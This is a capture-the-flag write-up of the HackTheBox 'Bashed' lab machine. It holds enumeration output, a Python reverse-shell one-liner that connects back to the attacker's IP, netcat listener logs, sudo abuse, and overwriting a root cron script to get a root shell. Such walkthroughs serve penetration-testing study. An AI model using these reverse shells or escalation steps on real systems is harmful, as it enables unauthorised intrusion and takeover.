

# HackTheBox Bashed

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)


## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.68

[+] Openning ports: 80

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.68 -p80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-06 09:54 +07
Nmap scan report for 10.10.10.68
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.81 seconds

### Web Enumeration (80) ############################
```

### Apache httpd 2.4.18

List of the hidden using `gobuster` and I try to enum in the hidden url.

```
[+] Files and directories
gobuster dir -k -u http://10.10.10.68:80 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
<snip>
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
```

At uri `/dev`, I got 2 file which is phpbash command shell.



## Foothold

### phpbash execute shell

At url `http://10.10.10.68/dev/phpbash.php`, I try some reverse shell with `bash`, `nc` but it's not work. When I run `python reverse shell` and I got it.

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

At listener, I got reverse shell.

```
┌──(Hades㉿10.10.14.5)-[1.2:29.2]~/walkthrough/hackthebox/bashed
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.68] 34342
www-data@bashed:/var/www/html/dev$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation

### Sudo Access

After running [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS), I got the sudo access to run command with scriptmanager's permission without password. 

```
www-data@bashed:/var/www/html/dev$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

Let's run `/bin/bash` to get the shell.

```
www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager /bin/bash
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/var/www/html/dev$ id
id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

### Crontab File overwrite

I try to monitor process with [pspy32](https://github.com/DominicBreuker/pspy/blob/master/README.md). The results show that there are process run all python file in folder `scripts` as root.

```
scriptmanager@bashed:/tmp$ ./pspy32
<snip>
2021/04/05 21:01:04 CMD: UID=0    PID=18391  | /bin/bash 
2021/04/05 21:01:04 CMD: UID=0    PID=18390  | python test.py 
2021/04/05 21:01:04 CMD: UID=0    PID=18389  | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
```

And script `test.py` owned by scriptmanager, and we can modify it.

```
scriptmanager@bashed:/scripts$ ls -lh
ls -lh
total 12K
-rw-r--r-- 1 scriptmanager scriptmanager 211 Apr  5 21:00 test.py
-rw-r--r-- 1 root          root           12 Apr  5 21:00 test.txt
```

Let's add python reverse shell to file test.py and waiting cronjobs execute it.

```
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' > /scripts/test.py
```

At listener, I got root shell.

```
┌──(Hades㉿10.10.14.5)-[1.3:27.7]~/scripting/priescal/monitor
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.68] 34304
root@bashed:/scripts# id
id
uid=0(root) gid=0(root) groups=0(root)
root@bashed:~# cat /var/spool/cron/crontabs/root
cat /var/spool/cron/crontabs/root
# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (/tmp/crontab.igz05b/crontab installed on Mon Dec  4 17:53:17 2017)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
* * * * * cd /scripts; for f in *.py; do python "$f"; done
```